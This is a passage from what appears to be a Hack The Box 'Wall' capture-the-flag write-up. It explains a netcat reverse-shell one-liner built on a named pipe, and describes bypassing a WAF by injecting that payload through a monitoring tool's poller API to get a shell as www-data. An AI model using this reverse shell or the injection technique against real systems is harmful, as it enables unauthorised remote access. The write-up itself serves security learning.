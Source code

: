 ~~~bash
/bin/sh 0</tmp/backpipe | nc {} {} 1>/tmp/backpipe &
~~~

Part 2:
1.	Start the /bin/sh process
2.	Redirect all input from /tmp/backpipe to file descriptor 0 (which is standard input), so /bin/sh gets all its input from our pipe
3.	Start a process of netcat back to our local machine
4.	Redirect standard output (file descriptor 1) to our pipe

So, when we type commands, netcat routes the standard input it receives (our commands) to our pipe, which is then routed to /bin/sh, where they are executed, and produce some standard output. Then we see the output of our commands as normal output on our reverse shell. All credit to [this site](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/){:target="_blank"}  for figuring that out ([5]). I wanted to do something like this, but would have not figured it out on my own

Some things to note:
1.	Using the API means we can bypass the WAF, and inject anything we want 😊
2.	For us to execute our payload, our poller must be the only “Central Poller” active. Making a poller localhost sets it to be central. But, if there is already a central poller, the original poller marked as central will still have precedence. Therefore, we must specifically toggle off localhost for every poller BEFORE we create our own
3.	We comment out everything after our payload, so it is the only thing that gets executed when we call the debug function
4.	There are multiple steps that must be taken to create a poller. Take a look at the code and comments to understand what they are, and why they must be done.

**Number 2 is important because otherwise, no matter which poller id my new poller was, I could only execute commands on the Central Poller**

Running our exploit, we get a shell back as `www-data`

{:refdef: style="text-align: center;"}
![Exploit Run](../../assets/img/writeups/htb/wall/exploit_run.png)
{: refdef}

{:refdef: style="text-align: center;"}
![www-data user](../../assets/img/writeups/htb/wall/www_data_user.png)
{: refdef}
